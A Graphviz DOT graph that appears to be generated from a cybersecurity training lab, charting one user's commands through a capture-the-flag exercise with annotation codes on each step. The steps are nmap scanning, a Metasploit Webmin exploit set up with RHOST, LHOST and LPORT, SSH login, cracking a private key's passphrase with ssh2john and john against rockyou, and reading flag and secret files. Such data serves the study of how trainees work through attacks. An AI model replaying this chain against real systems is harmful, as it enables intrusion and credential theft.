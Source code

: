 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="ls A10 "]
	7 [label="msfconsole M2 "]
	8 [label="search webmin M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin V3 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin V3 "]
	20 [label="use 3 A4 "]
	21 [label="show options V5 "]
	22 [label="set SRVHOST 172.18.1.5 A6 "]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 A6 "]
	25 [label="set RHOST 172.18.1.5 A6 "]
	26 [label="check A7 "]
	27 [label="exploit M8 "]
	28 [label="set LHOST 147.251.83.13 V6 "]
	29 [label="exploit V8 "]
	30 [label="set LPORT 12345 A6 "]
	31 [label="exploit V8 "]
	32 [label="set LHOST 100.100.100.2 V6 "]
	33 [label="exploit V8 "]
	34 [label="set LPORT  A6 "]
	35 [label="set LPORT 4444 A6 "]
	36 [label="exploit V8 "]
	37 [label="set LHOST 10.1.135.83 V6 "]
	38 [label="nmap 10.1.17.4 A0 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 M16 "]
	41 [label="cd .ssh A16 "]
	42 [label="ls A10 "]
	44 [label="ssh-add id_rsaaaa A16 "]
	45 [label="ssh_add id_rsa A16 "]
	46 [label="ssh-add id_rsaa A16 "]
	47 [label="ssh-add id_rsa A16 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit V8 "]
	50 [label="chmod 600 id_rsa M15 "]
	51 [label="ssh-add id_rsa A16 "]
	52 [label="ssh-add id_rsa A16 "]
	53 [label="ssh eve@10.1.17.4 V16 "]
	54 [label="ls A10 "]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 A16 "]
	60 [label="./ssh2john.py id_rsa A14 A16 "]
	61 [label="./ssh2john.py id_rsa > hash A14 A16 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show A5 "]
	64 [label="john hash --show A5 A14 "]
	65 [label="john hash --show A5 A14 "]
	66 [label="john hash --show A5 A14 "]
	67 [label="john hash A14 "]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	70 [label="ssh eve@10.1.17.4 V16 "]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result V14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 V16 "]
	74 [label="ssh eve@10.1.17.4 V16 "]
	75 [label="mv id_rsa .ssh/id_rsa A16 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	77 [label="ssh eve@10.1.17.4 V16 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
